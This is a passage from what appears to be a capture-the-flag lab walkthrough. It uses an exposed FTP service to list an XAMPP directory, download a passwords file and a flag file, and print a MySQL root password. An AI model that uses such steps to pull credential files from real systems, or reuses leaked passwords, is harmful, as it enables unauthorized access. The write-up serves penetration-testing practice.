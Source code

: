 By looking into `xampp-control.log` we can see the below line which we can get with the **FTP** service.


```bash
3:11:25 PM  [main]      XAMPP Password Written in: "c:\xampp\passwords.txt"
```

```bash
ftp> get "c:\xampp\passwords.txt"
local: c:\xampp\passwords.txt remote: c:\xampp\passwords.txt
227 Entering Passive Mode (10,150,150,212,192,68).
150 Opening data connection for c:\xampp\passwords.txt.
100% |**********************************************************************************************|   816       32.58 KiB/s    00:00 ETA
226 File sent ok
816 bytes received in 00:00 (9.44 KiB/s)
```

Also, We can find the `FLAG20.txt` in the home directory of **XAMPP server** at `c:\xampp\`

```bash
ftp> dir "c:\xampp\"
227 Entering Passive Mode (10,150,150,212,192,74).
150 Opening data connection for directory list.

-rw-rw-rw-   1 ftp      ftp           40 Mar 13  2019 FLAG20.txt
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 mysql
-rwxrwxrwx   1 ftp      ftp          481 Jun 07  2013 mysql_start.bat
-rwxrwxrwx   1 ftp      ftp          220 Jun 07  2013 mysql_stop.bat
-rw-rw-rw-   1 ftp      ftp          816 Mar 13  2019 passwords.txt
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 perl
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 php
drw-rw-rw-   1 ftp      ftp            0 Nov 12  2018 phpMyAdmin
226 File sent ok
ftp> get "c:\xampp\FLAG20.txt"
local: c:\xampp\FLAG20.txt remote: c:\xampp\FLAG20.txt
227 Entering Passive Mode (10,150,150,212,192,75).
150 Opening data connection for c:\xampp\FLAG20.txt.
100% |**********************************************************************************************|    40      271.26 KiB/s    00:00 ETA
226 File sent ok
40 bytes received in 00:00 (0.49 KiB/s)
```

Also, We can see that there is `phpMyAdmin` directory that we can investigate at the **HTTP enumeration** section.

Now Let's see what is inside the `passwords.txt` and the `FLAG20.txt`?

1. FLAG20.txt
```bash
$ cat c:\\xampp\\FLAG20.txt
a9435c140b6667cf2f24fXXXXXXXXXXXXXXXXXXX
```

2. passwords.txt
```bash
─$ cat 'c:\xampp\passwords.txt'
### XAMPP Default Passwords ###

1) MySQL (phpMyAdmin):

   User: root
   Password:thebarrierbetween

2) FileZilla FTP:

   [ You have to create a new user on the FileZilla Interface ] 
```